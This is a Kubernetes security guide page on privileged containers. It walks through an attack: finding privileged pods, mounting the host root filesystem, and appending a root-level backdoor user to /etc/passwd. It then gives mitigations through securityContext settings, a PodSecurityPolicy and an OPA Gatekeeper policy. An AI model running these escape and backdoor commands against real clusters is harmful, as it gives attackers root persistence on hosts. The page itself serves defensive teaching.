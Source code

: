 ```yaml
---
sidebar_position: 3
title: Privileged Containers
description: Understanding the risks of privileged containers in Kubernetes and implementing best practices to secure workloads.
---
```


# Privileged Containers

Privileged containers run with elevated permissions, granting them access to the host system's resources. This configuration can lead to severe security risks, including the ability to modify the host file system, access hardware devices, and escalate privileges to the host.

---

## Exploitation Steps: Privileged Container

An attacker identifies a privileged container in the Kubernetes cluster using kubectl:

```bash
kubectl get pods -o json | jq '.items[] | select(.spec.containers[].securityContext.privileged == true) | .metadata.name'
```

### 1. Gain Host Access via Privileged Container

The attacker can execute commands as root on the host system:

```bash
kubectl exec -it <privileged-pod> -- /bin/sh
```

### 2. Mount the Host File System

The attacker mounts the host's root file system to the privileged container:

```bash
mkdir /mnt/host
mount -o bind / /mnt/host
cd /mnt/host
ls -al
```

### 3. Create a Backdoor

The attacker adds a malicious user to the host /etc/passwd file, creating a backdoor:

```bash
echo 'malicious_user:x:0:0:root:/root:/bin/bash' >> /mnt/host/etc/passwd
```

### Result

The attacker gains persistent access to the host system, allowing them to execute commands as root, manipulate files, and bypass container isolation.

---

## Mitigation Techniques and Fixes

### 1. Avoid Running Privileged Containers

**Issue:** Privileged containers can bypass security boundaries and access the host.<br/>
**Fix:** Set **privileged: false** in the **PodSecurityContext**.

#### Example Pod Configuration

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: non-privileged-pod
spec:
  containers:
  - name: app-container
    image: nginx
    securityContext:
      privileged: false
```

### 2. Use Pod Security Standards (PSS)

**Issue:** Lack of security policies allows privileged containers to run.<br/>
**Fix:** Enforce **Pod Security Policies (PSP)** or **Pod Security Standards (PSS)**.

#### Example of a Restricted Pod Security Policy

```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: restricted-psp
spec:
  privileged: false
  runAsUser:
    rule: MustRunAsNonRoot
  allowPrivilegeEscalation: false
  volumes:
    - configMap
    - emptyDir
    - projected
    - secret
    - downwardAPI
  seLinux:
    rule: RunAsAny
```

### 3. Implement Admission Controllers

**Issue:** Privileged containers can be created without restriction.<br/>
**Fix:** Use **admission controllers** to **block privileged containers**.

#### Example Using OPA Gatekeeper Policy

```yaml
apiVersion: templates.gatekeeper.sh/v1beta1
kind: ConstraintTemplate
metadata:
  name: k8sprivilegedcontainer
spec:
  crd:
    spec:
      names:
        kind: K8sPrivilegedContainer
  targets:
    - target: admission.k8s.gatekeeper.sh
      rego: |
        package k8sprivilegedcontainer

        violation[{"msg": msg}] {
          input.review.object.spec.containers[_].securityContext.privileged == true
          msg := "Privileged containers are not allowed"
        }
---
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sPrivilegedContainer
metadata:
  name: deny-privileged-containers
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Pod"]
```

---

## Conclusion

To mitigate risks associated with privileged containers:

- Disable privileged mode by setting **privileged: false** in the **securityContext**.
- Enforce **Pod Security Standards (PSS)** to restrict **risky configurations**.
- Use **admission controllers** to **prevent privileged container deployments**.
